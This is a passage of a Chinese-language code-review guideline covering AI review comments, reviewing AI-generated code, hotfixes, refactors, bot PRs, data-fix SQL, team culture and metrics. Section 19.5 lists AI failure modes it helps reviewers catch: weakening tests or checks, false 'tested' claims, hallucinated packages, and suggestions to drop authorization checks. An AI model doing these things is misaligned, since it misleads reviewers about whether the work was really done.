| AI 意見的類型 | 處理方式 |
| --- | --- |
| 正確且重要 | 修正；在回覆中說明修正的提交 |
| 正確但不重要（風格、偏好） | 可以不處理；回覆「不處理：CI 已檢查」或直接解決討論 |
| 誤報（程式碼其實正確） | 回覆說明為什麼是誤報；若誤報反覆出現，更新審查指示 |
| 無法判斷 | 請人類審查者判斷，不要為了「讓 AI 滿意」而修改程式碼 |
| 指出既有程式碼的問題 | 不阻擋本 PR；確認後開議題（CR-CMT-005） |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-AI-007` | 必須 | 作者必須驗證 AI 審查意見後才採取行動：不得在未理解的情況下套用 AI 的建議修改；判定為誤報的意見應簡短說明理由。人類審查者不得因 AI 沒有提出意見而減少自己的審查範圍 | 👁 審查紀錄；🤖 22.2 的 AI 意見採納率統計 |

```text
✅ CR-AI-007：逐則判斷 AI 意見
Copilot：Possible null dereference: `order.getCancelledAt()` may be null.
@kevin：誤報。這行在 `order.cancel(...)` 之後執行，cancel 成功時一定會設定 cancelledAt（OrderTest#cancellableStatuses 有驗證）。

Copilot：Consider adding a timeout to RestClient.
@kevin：正確，已在 PaymentClientConfig 加上連線 2 秒、讀取 3 秒的逾時，見 4b5c6d7。
```

```text
❌ CR-AI-007：未經理解就套用所有 AI 建議
Copilot 提出 12 則建議 → 作者全部按下「Commit suggestion」
其中一則把 `findByIdAndCustomerId(id, customerId)` 改成 `findById(id)`（AI 認為「參數多餘」）
→ 授權檢查被移除（違反 CR-SEC-004），而這個修改是由 AI 建議、作者一鍵套用的。
```

#### 🔍 19.4 審查與驗證

- **自動檢查：** 附錄 C.5 的腳本可以統計 AI 意見的數量與被「採納」（有對應修正提交）的比例；Claude Code Code Review 提供 👍／👎 回饋與「自動解決」的統計。
- **人工審查問題：**
  1. 作者套用的 AI 建議修改，有沒有改變不相關的行為？
  2. AI 意見的誤報率是多少？是否需要調整指示？
- **AI 常見錯誤：** AI 審查工具對相同的程式碼可能每次給出不同的意見；它也可能自信地指出「錯誤」，但其實誤解了程式碼。不要把 AI 的語氣當成證據。

### 19.5 審查 AI 產生的程式碼

AI 產生的程式碼有一些人類較少犯的典型錯誤。審查 AI 產出時，除了第 7–16 章的一般重點，還要特別檢查下表：

| 錯誤類型 | 說明 | 怎麼發現 |
| --- | --- | --- |
| 幻覺 API | 呼叫不存在的方法、類別、設定鍵或 CLI 參數 | 編譯、執行測試；查官方文件 |
| 套件幻覺 | 引入不存在或拼字相近的套件（slopsquatting 的攻擊目標） | 在官方套件庫確認（15.2） |
| 過時的寫法 | 使用已淘汰的 API（`WebSecurityConfigurerAdapter`、`.eslintrc`、`actions/checkout@v3`） | 靜態分析的淘汰警告；查版本說明 |
| 範圍外的修改 | 「順便」重構、重新格式化、修改不相關的檔案 | 檔案清單與 diff 大小（4.1） |
| 削弱測試或檢查 | 修改斷言、加 `@Disabled`、放寬 lint、加抑制註解 | 測試與設定的 diff（10.1、17.5） |
| 不安全的預設 | 寫死的秘密、`permitAll()`、關閉 CSRF、沒有逾時 | 第 11、12 章的檢查 |
| 虛假的驗證宣稱 | 描述中宣稱「已測試」、「無破壞性變更」但沒有證據 | 對照 CI 紀錄與 diff |
| 不符合專案慣例 | 引入新的函式庫或寫法，和既有程式碼不一致 | 7.4 |
| 授權與著作權 | 產生與開源程式碼高度相似的片段 | 程式碼相似度掃描、工具的公開程式碼比對設定 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-AI-004` | 必須 | PR 描述必須揭露 AI 產生的程式碼範圍與作者的驗證方式（4.2 範本的「AI 使用揭露」段落）；審查者看到揭露時，應依本節的錯誤類型表加強檢查 | 🤖 附錄 C.4 檢查段落存在；👁 審查內容 |
| `CR-AI-005` | 必須 | AI 代理（例如 Copilot cloud agent、Claude Code、GitLab Duo Agent Platform）建立的 PR／MR，必須有一位人類負責人擔任作者角色（CR-ROLE-001）；負責人不得同時擔任該 PR 的核准者 | 🤖 GitHub Ruleset 對未歸屬的 Copilot PR 要求額外核准；👁 PR 指派紀錄 |
| `CR-AI-008` | 必須 | AI 產生的程式碼中出現的每一個新 API、套件、設定鍵、CLI 參數，都必須經過編譯、測試或官方文件確認存在且用法正確；無法確認的不得合併 | 🤖 編譯與測試；🤖 Dependency Review；👁 審查者抽查官方文件 |

```markdown
<!-- ✅ CR-AI-004：PR 描述中具體的 AI 使用揭露 -->
## AI 使用揭露
- [x] 本 PR 有使用 AI 產生程式碼，範圍與驗證方式：
  - `OrderSearchDao`：由 Claude Code 產生初稿。我改寫了排序欄位的處理（AI 原本直接串接 `sort` 參數），
    改為允許清單對應（CR-SEC-003），並新增惡意排序參數的測試。
  - `JdbcClient` 的 `.param(...).query(Class)` 用法已對照 Spring Framework 7.0 文件確認存在。
  - 測試：`OrderSearchDaoIT` 由我撰寫；AI 產生的 3 個測試只驗證 mock 呼叫，已刪除。
```

```java
// ❌ CR-AI-008：AI 產生的程式碼呼叫了不存在的方法（Spring Data JPA 沒有 findByIdOrThrow；
// Spring Security 7 也沒有 http.authorizeRequests().antMatchers(...) 這組 API）
Order order = orderRepository.findByIdOrThrow(orderId);
http.authorizeRequests().antMatchers("/api/**").authenticated();
```

（片段：兩行獨立的錯誤，編譯時就會失敗；但若出現在沒有被編譯的範例、文件或設定中，就只能靠審查發現。）

```text
❌ CR-AI-005：AI 代理建立的 PR 由提示它的人自行核准
PR #1090 作者：Copilot（由 @kevin 在議題中指派）
審查者：@kevin APPROVED
→ @kevin 下達任務又核准結果，等於作者自己核准自己的 PR；應由其他人審查。
```

#### 🔍 19.5 審查與驗證

- **自動檢查：** 編譯與測試會抓到大部分的幻覺 API；Dependency Review 會顯示新套件；附錄 C.4 會標示描述中缺少「AI 使用揭露」的 PR。
- **人工審查問題：**
  1. 這個 PR 中 AI 產生的部分，作者能逐行解釋嗎？（CR-ROLE-001）
  2. 有沒有本節錯誤類型表中的任何一項？
  3. 描述中的宣稱（「已測試」、「向後相容」）有證據嗎？
- **AI 常見錯誤：** 本節的錯誤類型表本身就是 AI 常見錯誤的整理。最需要警惕的是「看起來非常合理」：AI 產生的程式碼格式整齊、命名得體、註解完整，很容易讓審查者降低戒心。

## 20. 特殊情境

### 20.1 緊急修正

正式環境發生嚴重問題時，等待一般的審查流程可能讓損害擴大。但緊急修正也是最容易出錯的時候：壓力大、時間短、測試不足。緊急流程的原則是**縮短等待，而不是省略審查**：審查仍然要做，只是改為同步進行，並在事後補足。

| 等級 | 定義 | 目標修復時間 | 審查方式 |
| --- | --- | --- | --- |
| P0 | 服務完全中斷、資料遺失或損毀、正在被利用的安全弱點 | 4 小時內 | 同步審查（通話中共同檢視），1 位核准；事後 1 個工作天內補完整審查 |
| P1 | 核心功能無法使用、大量使用者受影響、效能嚴重下降 | 24 小時內 | 一般流程但優先處理，1 位核准；回應時限縮短為 1 小時 |
| P2 以下 | 其他 | 依排程 | 一般流程 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-SPC-001` | 必須 | 緊急修正仍必須透過 PR 並至少由一位作者以外的人核准；P0 可以改為同步審查，但不得由作者以管理員權限略過審查（略過時必須依 0.6 記錄例外） | 🤖 Ruleset 略過紀錄（Rule insights）／GitLab 稽核事件；👁 事後檢視 |
| `CR-SPC-002` | 必須 | 緊急修正合併後 1 個工作天內，必須完成事後審查：補上回歸測試、檢視同步審查時略過的項目、建立根本原因分析的議題 | 👁 事後審查紀錄；🤖 追蹤議題的期限 |

```markdown
<!-- ✅ CR-SPC-001、CR-SPC-002：.github/PULL_REQUEST_TEMPLATE/hotfix.md（緊急修正範本） -->
## 🚨 緊急修正
- 等級：P0／P1
- 事件編號：INC-
- 影響範圍：
- 問題現象：

## 修正內容
- 修正方式（只修正問題本身，不夾帶其他變更）：
- 驗證方式（至少一項）：
  - [ ] 新增或修改的自動化測試：
  - [ ] staging 手動驗證：
- 回滾方式：

## 審查
- 同步審查者：@
- 同步審查時略過的項目（事後補齊）：

## 事後審查（合併後 1 個工作天內完成）
- [ ] 回歸測試已補齊（若合併時尚未有）
- [ ] 略過的審查項目已完成
- [ ] 根本原因分析議題：#
```

```text
❌ CR-SPC-001：以管理員權限直接推送緊急修正，事後沒有任何紀錄
02:13 @oncall 以 admin 身分 git push origin main（略過 Ruleset）
02:20 部署
（之後沒有 PR、沒有審查、沒有測試；三週後同一個問題再次發生，沒有人知道上次改了什麼）
```

#### 🔍 20.1 審查與驗證

- **自動檢查：** 每週以 GitHub Rule insights 或 GitLab 稽核事件列出略過保護的推送，逐筆對照緊急修正紀錄與事後審查是否完成。
- **人工審查問題：**
  1. 緊急修正是否只修正了問題本身？有沒有夾帶其他變更？
  2. 事後審查是否在期限內完成？回歸測試補了嗎？
- **AI 常見錯誤：** 在緊急情況下請 AI 協助修正時，AI 常一併「改善」周邊的程式碼，讓緊急修正的範圍擴大、風險增加；也可能建議關閉檢查或暫時移除授權以「先恢復服務」。

### 20.2 大型重構

大型重構無法拆成 400 行以下的 PR 時，關鍵是讓每一步都**行為不變且可以獨立驗證**。完整的重構方法見 [refactor 重構指引]()。

| 階段 | 做法 | 審查重點 |
| --- | --- | --- |
| 1. 設計 | 以 ADR 說明目標、步驟、回滾方式（CR-DES-001） | 步驟是否每一步都可以獨立部署與回滾 |
| 2. 補測試 | 先為要重構的程式碼補上特性測試（characterization tests） | 測試是否鎖定了現有行為（包括「看起來是錯誤」的行為） |
| 3. 機械性變更 | 改名、搬移，以 IDE 的自動重構完成，單獨成一個 PR | 只看「是否純機械性」，可以搭配工具確認 |
| 4. 平行實作 | 新實作與舊實作並存（strangler fig、branch by abstraction），以功能開關切換 | 開關的預設值、切換與回滾方式 |
| 5. 切換與清理 | 逐步切換流量，最後刪除舊實作 | 刪除前確認已無呼叫端 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-SPC-003` | 必須 | 大型重構必須拆成一系列可獨立部署的 PR，每個 PR 在描述中標示它在系列中的位置；「純重構」的 PR 不得改變行為（CR-TST-003），機械性變更（改名、搬移）必須與邏輯變更分開 | 👁 PR 系列與描述；🧪 既有測試全部通過且未修改預期結果 |

```markdown
<!-- ✅ CR-SPC-003：系列 PR 的描述開頭，標示在系列中的位置（v2.0 範例的改寫） -->
## 使用者服務重構（ADR-0051）：第 3 步，共 5 步
1. ✅ #1101 補上 UserService 的特性測試（已合併）
2. ✅ #1104 抽出 UserQueryPort 介面，舊實作改為實作此介面（純重構，已合併）
3. 👉 **本 PR**：新增 UserQueryAdapter（新實作），以功能開關 `user.query.v2`（預設關閉）切換
4. ⏳ staging 開啟開關，比對新舊結果一週
5. ⏳ 刪除舊實作與開關

本 PR 不改變任何既有行為：開關預設關閉，既有測試全部通過且未修改。
```

#### 🔍 20.2 審查與驗證

- **自動檢查：** 純機械性的 PR 可以用 `git diff --stat -M` 確認主要是改名（`R` 狀態）；IntelliJ IDEA 的「Structural Search」或 OpenRewrite 的配方可以讓機械性變更可重現。
- **人工審查問題：**
  1. 這一步出錯時，能只回滾這一步嗎？
  2. 標為純重構的 PR，測試的預期結果有被修改嗎？
- **AI 常見錯誤：** AI 擅長產生大量的機械性變更，但常在其中夾帶邏輯修改（例如改名的同時「修正」了條件判斷）；要求 AI 把機械性變更與邏輯變更放在不同的提交。

### 20.3 自動產生的程式碼與機器人 PR

Dependabot、Renovate 等工具會大量開啟相依套件更新的 PR。每個都人工深入審查並不實際，但也不能全部自動合併。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-SPC-004` | 應該 | 相依套件的修補版本（patch）更新，在 CI 全部通過且不是安全敏感的套件時，可以設定自動合併；次要版本（minor）至少一位人工核准；主要版本（major）視為高風險變更（3.4），需閱讀版本說明中的破壞性變更 | 🤖 Dependabot／Renovate 設定；👁 審查主要版本更新 |

```json
{
  "$schema": "https://docs.renovatebot.com/renovate-schema.json",
  "extends": ["config:recommended"],
  "packageRules": [
    {
      "description": "CR-SPC-004：修補版本在 CI 通過後自動合併（安全相關套件除外）",
      "matchUpdateTypes": ["patch"],
      "matchPackageNames": ["!/^org\\.springframework\\.security/", "!/^io\\.jsonwebtoken/"],
      "automerge": true,
      "automergeType": "pr"
    },
    {
      "description": "CR-SPC-004：主要版本加上高風險標籤，需要兩位核准",
      "matchUpdateTypes": ["major"],
      "labels": ["risk:high"],
      "automerge": false
    }
  ]
}
```

#### 🔍 20.3 審查與驗證

- **自動檢查：** Renovate 提供 `renovate-config-validator` 驗證設定檔；自動合併仍受 Ruleset 的必要檢查約束。
- **人工審查問題：**
  1. 主要版本更新的破壞性變更，在程式碼中有被處理嗎？
  2. 自動合併的範圍是否排除了安全敏感的套件？
- **AI 常見錯誤：** AI 處理相依套件升級失敗時，常把版本固定回舊版並關閉自動更新，讓專案停留在有弱點的版本。

### 20.4 第三方程式碼與授權

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-SPC-005` | 必須 | 複製進程式庫的第三方程式碼（vendored code、從網路或 AI 取得的片段）必須標示來源與授權，授權必須符合公司政策；不得複製授權不明或與專案授權衝突的程式碼 | 🤖 授權掃描（Dependency Review、ScanCode）；👁 審查來源註解 |

```java
// ✅ CR-SPC-005：複製的第三方程式碼標示來源、版本與授權（片段：只截取檔案開頭）
/*
 * 改寫自 Apache Commons Text 1.14.0 的 StringEscapeUtils#escapeCsv
 * 原始碼：https://github.com/apache/commons-text
 * 授權：Apache License 2.0（與本專案相容，已列入 THIRD-PARTY-NOTICES）
 * 修改：加上 CSV 公式注入防護（開頭為 = + - @ 的儲存格前加上單引號）
 */
```

（片段：只截取檔案開頭的註解。）

#### 🔍 20.4 審查與驗證

- **自動檢查：** 授權掃描工具；GitHub Copilot 可設定「阻擋與公開程式碼相符的建議」。
- **人工審查問題：** 這段程式碼看起來像是從其他地方複製的嗎？有來源與授權嗎？
- **AI 常見錯誤：** AI 可能產生與開源專案高度相似的程式碼，而不會標示來源。

### 20.5 跨團隊變更

修改共用元件、跨服務的 API 或其他團隊擁有的程式碼時，審查需要涉及多個團隊，等待時間也最長。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-SPC-006` | 應該 | 跨團隊的變更應在開始實作前通知擁有團隊並取得方向上的同意；PR 描述應說明對各團隊的影響與需要他們確認的事項；擁有團隊的審查回應時限與一般審查相同（CR-PRC-002） | 👁 PR 描述與通知紀錄；🤖 CODEOWNERS 自動請求審查 |

```markdown
<!-- ✅ CR-SPC-006：跨團隊 PR 的描述中，說明各團隊需要確認的事項 -->
## 需要其他團隊確認
| 團隊 | 影響 | 需要確認 |
| --- | --- | --- |
| @example/payment-team | 新增 `OrderCancelled` 事件，付款服務需訂閱 | 事件欄位（orderId、amount）是否足夠退款使用？ |
| @example/frontend-team | 取消 API 新增必填欄位 `reason` | 前端 #851 是否能在本 PR 之前部署？ |

事前討論：2026-09-30 架構會議（ADR-0042），兩個團隊都已同意方向。
```

#### 🔍 20.5 審查與驗證

- **自動檢查：** CODEOWNERS 確保擁有團隊被自動請求審查。
- **人工審查問題：** 受影響的團隊都被通知了嗎？部署順序與相依關係清楚嗎？
- **AI 常見錯誤：** AI 不知道組織的團隊分工，常在一個 PR 中同時修改多個團隊的程式碼。

### 20.6 正式環境的資料修正

直接在正式環境執行 SQL 修正資料（data fix），是風險最高、卻最常被忽略審查的操作：它不經過 CI、不經過測試，而且通常無法回滾。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-SPC-007` | 必須 | 正式環境的資料修正腳本必須以 PR 提交並經過審查，與程式碼相同；腳本必須在交易中執行、先以 `SELECT` 確認影響筆數、限制影響範圍（明確的 `WHERE` 條件），並附上備份或回復方式；執行結果（影響筆數）必須記錄在 PR 中 | 👁 PR 審查；👁 執行紀錄 |

```sql
-- ✅ CR-SPC-007：data-fix/2026-10-08_INC-2210_restore_cancel_reason.sql
-- 事件：INC-2210，2026-10-07 14:00–14:20 部署的版本未寫入 cancel_reason
-- 預期影響筆數：37（已於 staging 以正式環境快照驗證）
BEGIN;

CREATE TABLE data_fix_inc2210_backup AS
SELECT id, status, cancel_reason
FROM orders
WHERE status = 'CANCELLED'
  AND cancel_reason IS NULL
  AND cancelled_at >= TIMESTAMPTZ '2026-10-07 14:00:00+08'
  AND cancelled_at <  TIMESTAMPTZ '2026-10-07 14:20:00+08';

SELECT count(*) AS affected FROM data_fix_inc2210_backup;   -- 必須是 37，否則 ROLLBACK

UPDATE orders o
SET cancel_reason = '（系統補登：原因未記錄，INC-2210）'
FROM data_fix_inc2210_backup b
WHERE o.id = b.id;

COMMIT;
```

```sql
-- ❌ CR-SPC-007：沒有交易、沒有備份、WHERE 條件過寬，更新了所有沒有原因的取消訂單（包含原本就允許為空的舊資料）
UPDATE orders SET cancel_reason = '系統補登' WHERE cancel_reason IS NULL;
```

#### 🔍 20.6 審查與驗證

- **自動檢查：** 資料修正腳本放在獨立目錄（例如 `data-fix/`），由 CODEOWNERS 指定 DBA 審查；可在 staging 的正式環境快照上執行並比對影響筆數。
- **人工審查問題：**
  1. `WHERE` 條件只會影響預期的資料嗎？預期筆數是多少？
  2. 執行失敗或結果不如預期時，如何回復？
- **AI 常見錯誤：** AI 產生的資料修正 SQL 常沒有交易、沒有備份，`WHERE` 條件只依症狀撰寫（例如 `cancel_reason IS NULL`）而沒有限制時間範圍或事件範圍。

## 21. 意見衝突與團隊文化

### 21.1 意見分歧的處理

審查中的意見分歧是正常的，也是審查有價值的證明：兩個人對同一段程式碼有不同看法，代表至少有一個人想到了另一個人沒想到的事。問題在於分歧無法收斂時：PR 卡住、雙方各說各話，或其中一方放棄（「好吧，隨便你」），這些都會傷害程式碼與團隊。

Google 的工程實務建議的判斷順序是：**技術事實與資料優先於意見與個人偏好**；風格指南是風格問題的最終依據；風格指南沒有規定的事項，以作者的選擇為準，除非它讓程式碼健康度下降。

| 分歧的類型 | 判斷依據 | 例子 |
| --- | --- | --- |
| 正確性 | 事實、測試、規格 | 「這裡會 NPE」→ 寫一個測試證明 |
| 違反規範 | 本指引、程式寫作指引、安全程式碼指引 | 「沒有逾時」→ CR-PRF-004 |
| 設計 | ADR、架構原則、既有慣例 | 「同步或非同步」→ 依 ADR，沒有 ADR 就先寫 ADR |
| 效能 | 量測數據（CR-PRF-005） | 「這樣比較快」→ 拿出數據 |
| 風格偏好 | 團隊風格指南；沒有規定時作者決定 | `for` 迴圈或 `stream` |

升級流程分三個階段，每個階段都要在 PR 中留下紀錄（CR-PRC-008）：

1. **文字討論**：雙方說明理由與證據。往返超過三輪仍未收斂，進入下一階段。
2. **同步討論**：15 分鐘的通話（3.5）。仍未收斂，進入下一階段。
3. **技術主管決定**：技術主管（或指定的架構師）聽取雙方意見後決定，並說明理由；若這類分歧可能再次發生，把決定寫入團隊規範或 ADR。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-CUL-001` | 必須 | 審查意見分歧依本節的三階段處理，每階段的結論寫回 PR；風格偏好的分歧，在團隊規範沒有規定時以作者的選擇為準，不得因此阻擋合併 | 👁 PR 討論紀錄 |
| `CR-CUL-002` | 應該 | 同類型的分歧發生兩次以上時，技術主管應把結論寫入團隊規範、lint 規則或 ADR，避免每次重新爭論 | 👁 規範與 ADR 的更新紀錄 |

```markdown
<!-- ✅ CR-CUL-001、CR-CUL-002：v2.0 的 forEach 與 for...of 爭論，依本節處理後的紀錄 -->
**分歧紀錄（已收斂）**

- 爭點：`items.forEach(...)` 或 `for (const item of items)`
- @reviewer-a：需要 `break` 或 `await` 時 `forEach` 無法正確處理
- @reviewer-b：只是走訪時 `forEach` 與其他陣列方法風格一致
- 結論（技術主管 @chen，2026-10-07）：
  - 迴圈中有 `await`、`break`、`continue` 時必須用 `for...of`（正確性問題：`forEach` 不會等待 `await`）
  - 其他情況由作者決定（風格偏好）
- 後續：已在 eslint.config.mjs 加入 `no-await-in-loop` 的例外說明與團隊規範第 4.3 節（#1112）
```

```text
❌ CR-CUL-001：以職位或音量結束爭論，沒有理由也沒有紀錄
@senior：照我說的改，不要再討論了。
@author：好吧。 [Resolve conversation]
→ 作者沒有學到任何東西，下次遇到同樣的情況仍然不知道該怎麼寫；團隊也失去了寫入規範的機會。
```

#### 🔍 21.1 審查與驗證

- **自動檢查：** 附錄 C.2 的報表可以列出討論則數最多的 PR，作為檢視分歧的入口。
- **人工審查問題：**
  1. 這個分歧是正確性、規範、設計、效能，還是風格偏好？
  2. 我是在用證據說服對方，還是在堅持自己的習慣？
- **AI 常見錯誤：** 請 AI 判斷誰對時，AI 傾向附和提問者的立場，或給出「兩者都有道理」的模糊答案。AI 可以協助整理雙方的論點與查找文件，但決定要由人做。

### 21.2 心理安全與行為準則

審查是一種公開的評論，很容易讓人感到被批評。Google 的研究（Project Aristotle）發現，**心理安全**（成員相信在團隊中冒險、犯錯、提問不會被羞辱或懲罰）是高效團隊最重要的特徵。在審查中缺乏心理安全時，作者會傾向送出更大、更晚的 PR（避免被看到未完成的工作），審查者會傾向不提出意見（避免衝突），兩者都讓審查失去作用。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-CUL-003` | 必須 | 團隊必須有書面的審查行為準則（可引用本指引第 6.3 節），並指定處理違反行為的人（通常是技術主管或工程經理）；被不當對待的成員可以私下回報，回報者不得因此受到不利對待 | 👁 行為準則文件；👁 季度回顧（22.3） |
| `CR-CUL-004` | 應該 | 資深成員應示範好的審查行為：公開承認自己的錯誤、感謝他人的意見、對新進成員的 PR 提供教學性的說明，並讓新進成員審查資深成員的程式碼 | 👁 審查紀錄 |

```markdown
<!-- ✅ CR-CUL-003：團隊審查行為準則（docs/code-review.md 的一節） -->
## 審查行為準則
1. 意見針對程式碼與設計，不針對人（code review 指引 6.3）。
2. 不確定時用提問；說明理由；肯定做得好的地方。
3. 任何人都可以審查任何人的程式碼，包括新進成員審查技術主管的程式碼。
4. 感到被不當對待時，可以私下告知工程經理 @manager-lin；回報不會影響考核。
5. 違反準則的意見，技術主管會私下與當事人溝通；重複發生時依公司行為準則處理。
```

```text
❌ CR-CUL-004：資深成員的 PR 無人敢提出意見
PR #1120 作者：@architect（+620 −80）
@junior-1 APPROVED（0 則意見）
@junior-2 APPROVED（0 則意見）
→ 事後訪談：兩位審查者都發現了疑問，但「覺得架構師應該是對的」。
```

#### 🔍 21.2 審查與驗證

- **自動檢查：** 無。
- **人工審查問題：**
  1. 新進成員是否也在審查資深成員的程式碼？他們留下了意見嗎？
  2. 季度回顧中，成員對「審查讓我感到被尊重」的評分如何？
- **AI 常見錯誤：** 不要用 AI 判斷審查意見的「語氣是否冒犯」並自動處置；語氣的判斷與文化有關，誤判會傷害信任。AI 可以作為撰寫意見時的語氣建議工具。

### 21.3 建立審查文化

審查文化不是一份文件就能建立的。v2.0 列出的推動策略（由上而下支持、漸進式導入、持續改善）仍然適用，本節把它們具體化：

| 做法 | 具體行動 | 負責人 |
| --- | --- | --- |
| 管理層支持 | 審查時間列入工作量估算（建議每人每天 30–60 分鐘），不把審查視為「額外的工作」 | 工程經理 |
| 讓審查被看見 | 季度回顧中分享好的審查案例（找到重要問題的意見、清楚的說明） | 技術主管 |
| 降低門檻 | 鼓勵小 PR、草稿 PR、提早徵求意見 | 全體 |
| 持續校準 | 每季一次審查校準會議（23.3） | 技術主管 |
| 不懲罰 | 不以「審查中被找到幾個問題」評價作者 | 工程經理 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-CUL-005` | 應該 | 審查工作應被計入工作量：迭代規劃時保留審查時間，並在績效評估中肯定好的審查貢獻（以質性描述為主，不以意見數量計分，見 CR-MET-002） | 👁 迭代規劃紀錄；👁 績效評估準則 |

```text
✅ CR-CUL-005：迭代規劃時保留審查時間
團隊容量：5 人 × 10 工作天 × 6 小時 = 300 小時
保留：審查 10%（30 小時）、事件處理 10%（30 小時）
可規劃的開發容量：240 小時
```

#### 🔍 21.3 審查與驗證

- **自動檢查：** 無。
- **人工審查問題：**
  1. 成員是否覺得審查「排擠」了開發工作？審查時間有被規劃嗎？
  2. 好的審查有沒有被看見與肯定？
- **AI 常見錯誤：** 以 AI 自動產生「審查貢獻排行榜」會讓成員追求意見數量而不是品質（見 22.1 的度量原則）。

## 22. 度量與持續改善

### 22.1 度量的原則

「當一個度量成為目標，它就不再是好的度量」（古德哈特定律）。審查的度量特別容易被扭曲：以「意見數量」評價審查者，會得到大量的 nitpick；以「審查時間」評價，會得到不看就核准；以「被找到的缺陷數」評價作者，會得到不敢送審的大 PR。因此審查度量必須遵守三個原則：

1. **度量團隊與流程，不度量個人**：用來找出流程瓶頸，而不是評比成員。
2. **同時看速度與品質**：只看速度會鼓勵草率審查，只看品質會鼓勵無止境的審查。
3. **度量用來提問，不用來下結論**：數字異常時，去問「為什麼」，而不是直接要求改善數字。

| 類別 | 指標 | 定義 | 參考目標 | 異常時要問的問題 |
| --- | --- | --- | --- | --- |
| 速度 | 首次回應時間 | 請求審查到第一則意見或核准（P50／P90） | P90 ≤ 1 個工作天 | 審查負載是否集中在少數人？ |
| 速度 | 審查週期時間 | 轉為 Ready 到合併 | P50 ≤ 1 個工作天 | PR 是否太大？往返是否太多？ |
| 規模 | PR 大小 | 有效變更行數（P50／P90） | P90 ≤ 400 行 | 工作拆分是否足夠？ |
| 品質 | 往返輪數 | 要求修改到核准的輪數 | P50 ≤ 2 | 描述與自我審查是否不足？意見是否不清楚？ |
| 品質 | 無意見核准比例 | 核准時沒有任何意見的 PR 比例 | 依 PR 大小解讀 | 大型 PR 無意見就核准，可能是草率審查 |
| 品質 | 逃逸缺陷 | 合併後發現、應在審查時發現的缺陷 | 趨勢下降 | 哪一類問題最常逃逸？檢查清單需要補充嗎？ |
| 控制 | 只有機器人核准的合併、略過保護的合併 | 違反 CR-AI-002、CR-GOV-001 的合併數 | 0（豁免除外） | 為什麼略過？例外流程是否被遵守？ |
| AI | AI 意見採納率 | 有對應修正提交的 AI 意見比例 | 依工具解讀 | 誤報太多時調整指示 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-MET-001` | 應該 | 團隊應每月收集本節表格中的速度、規模、品質與控制指標（以第 50 與第 90 百分位數呈現，不只看平均），並在季度回顧中檢視趨勢 | 🤖 附錄 C.2 的報表腳本；👁 回顧紀錄 |
| `CR-MET-002` | 不應該 | 不應以個人的審查數量、意見數量、被找到的缺陷數作為績效考核的量化指標；個人層級的資料只用於負載平衡與輔導 | 👁 績效評估準則 |

```text
✅ CR-MET-001：附錄 C.2 的 review_metrics.py 產生的月報格式（order-service，2026-09；數字為示意）
PR 數：81（已合併 81；已排除機器人建立的 PR）
首次回應時間   P50     2.1 小時   P90    19.4 小時
審查週期時間   P50     6.8 小時   P90    31.0 小時
變更行數       P50      96 行   P90     412 行   最大 1180 行   ← P90 略高於 400，檢視最大的 5 個 PR
往返輪數       P50     1.0      最大 4
無意見核准     12 個（超過 300 行：#1066, #1071）   ← 請技術主管抽查
只有機器人核准 0 個
```

```text
❌ CR-MET-002：以個人的意見數量排名並納入考核
2026 Q3 審查貢獻排行榜
1. @bob    留下 412 則意見  ⭐⭐⭐
2. @amy    留下 158 則意見
3. @kevin  留下  37 則意見
→ @bob 的意見有 70% 是 nitpick；@kevin 的 37 則中有 6 則找到了正式環境會發生的錯誤。數量排名獎勵了錯誤的行為。
```

#### 🔍 22.1 審查與驗證

- **自動檢查：** 報表腳本的輸出（附錄 C.2）；GitHub 的「Insights」與 GitLab 的「Value Stream Analytics」（Premium 以上）也提供部分指標。
- **人工審查問題：**
  1. 指標是在呈現團隊流程，還是被用來比較個人？
  2. 速度指標改善時，品質指標（逃逸缺陷、往返輪數）有沒有變差？
- **AI 常見錯誤：** AI 產生的度量報表常只計算平均值（被少數極端值扭曲），或以 PR 建立時間而非「轉為 Ready 的時間」計算等待時間。

### 22.2 收集方式

指標應從平台 API 自動收集，避免手動統計。附錄 C.2 提供以 `gh` 取得 GitHub 資料、以 Python 計算百分位數的腳本；GitLab 可以用 `glab api` 取得對應的 MR 資料。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-MET-003` | 應該 | 度量資料應以平台 API 自動收集，計算方式（起訖事件、排除條件）應寫在腳本或文件中，並排除機器人 PR 與草稿期間 | 🤖 附錄 C.2 的腳本與測試資料 |

```bash
# ✅ CR-MET-003：取得上個月合併的 PR 資料（GitHub），交給附錄 C.2 的 review_metrics.py 計算
gh pr list --repo example/order-service --state merged --limit 500 \
  --search "merged:2026-09-01..2026-09-30 -author:app/dependabot -author:app/renovate" \
  --json number,title,author,createdAt,mergedAt,additions,deletions,reviews,isDraft \
  > prs-2026-09.json
python3 review_metrics.py prs-2026-09.json
```

```bash
# ✅ CR-MET-003：GitLab 取得上個月合併的 MR（每頁 100 筆，--paginate 取得全部）
glab api --paginate \
  "projects/:id/merge_requests?state=merged&updated_after=2026-09-01T00:00:00Z&per_page=100" \
  > mrs-2026-09.json
```

#### 🔍 22.2 審查與驗證

- **自動檢查：** `review_metrics.py` 附有測試資料與預期輸出（附錄 C.2、F.3）。
- **人工審查問題：** 計算的起訖事件是否合理？機器人與草稿期間是否被排除？
- **AI 常見錯誤：** v2.0 的 GitLab 統計腳本把 `assignees`（負責人）當成 `reviewers`（審查者）、只取第一頁（預設 20 筆），並以 `date -d` 計算時間差（macOS 不支援）；AI 產生的統計腳本常有相同問題。

### 22.3 回顧與改善

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
